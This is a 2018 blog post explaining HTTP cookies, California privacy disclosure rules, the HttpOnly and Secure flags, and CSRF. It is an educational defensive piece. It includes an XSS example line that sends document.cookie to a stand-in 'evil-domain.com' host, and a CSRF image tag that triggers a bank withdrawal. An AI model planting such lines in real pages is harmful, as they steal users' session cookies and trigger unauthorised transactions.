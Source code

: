 ```yaml
---
id: 385
title: Cookies Security
#date: 2018-08-27T17:44:07+00:00
author: Luhao
layout: post
#guid: http://flywithfan.net/?p=385
#permalink: /web/385/
categories:
  - Web
tags:
  - security
---
```

Honestly, I was curious about the &#8220;cookie&#8221; promopt all the time but I didn&#8217;t really care about it until I came across the [The California Internet Privacy Bill](https://www.pillsburylaw.com/en/news-and-insights/california-internet-privacy-bill-signed-by-governor.html), then I knew why I often saw these on all kinds of website, but strangely, I have never seen this thing on chinese websites. Maybe we don&#8217;t respect the privacy of others, haha. But it really enlightened me on the thoughts about the privacy and the concerns about the security of cookies.

If any consumers of your web service are located in the state of California, you must:

  * Explain &#8220;how you deal with&#8221; do-not-track requests.
  * Make that information available in a conspicuous way from your homepage. (A text link to a privacy policy will do the trick)

Like this:

![](/assets/img/uploads/2018/cookies-e1535360025494.png)

In case you don&#8217;t know:

An HTTP cookie is a small piece of data that a server sends to the user&#8217;s web browser. The browser may store it and send it back with the next request to the same server.

Cookies are mainly used for three purposes:

  * **Session management**
  
    Logins, shopping carts, game scores, or anything else the server should remember</p> 
  * **Personalization**
  
    User preferences, themes, and other settings

  * **Tracking**
  
    Recording and analyzing user behavior

Cookies are sent with **every** request, so they can worsen performance (especially for mobile data connections). Modern APIs are recommended for client storage via Web storage API (**localStorage** and **sessionStorage**) and **IndexedDB**.

Cookies set:

<pre><code class="">HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
...
</code></pre>

Now, with every new request to the server, all previously stored cookies are sent to the server using the Cookie header.

<pre><code class="">GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
</code></pre>

## Security

**HttpOnly**
  
To prevent cross-site scripting (XSS) attacks, **HttpOnly** cookies are **inaccessible** to JavaScript&#8217;s Document.cookie API. Instead, they are only sent to the server.

An example of exploiting XSS vulnerabilites:

<pre><code class="language-javascript ">(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
</code></pre>

The **HttpOnly** cookie attribute can help by preventing access to cookie value through JavaScript.

**Secure**
  
A secure cookie is only sent to the server with a encrypted request over the **HTTPS** protocol. Even with Secure, sensitive information should never be stored in cookies, as they are inherently insecure and this flag can&#8217;t offer real protection.

So, we are supposed to set cookies like this:

<pre><code class="">Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
</code></pre>

**Cross-site request forgery (CSRF)**

There is an good example of explainning what is CSRF on [Wikipedia](https://en.wikipedia.org/wiki/HTTP_cookie#Cross-site_request_forgery).

Someone sent you a malicious link like this,

<pre><code class="">&lt;img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory"&gt;
</code></pre>

If you are logged into your bank account and your cookies are still valid (and there is no other validation), you will transfer money as soon as you load the HTML that contains this image!

There are a few techniques that are used to prevent this from happening:

  * input filtering
  * confirmation required for any sensitive action
  * short lifetime of cookies for sensitive actions

For more prevention tips, see the [OWASP CSRF prevention cheat sheet](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet).

* * *

1.[Cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)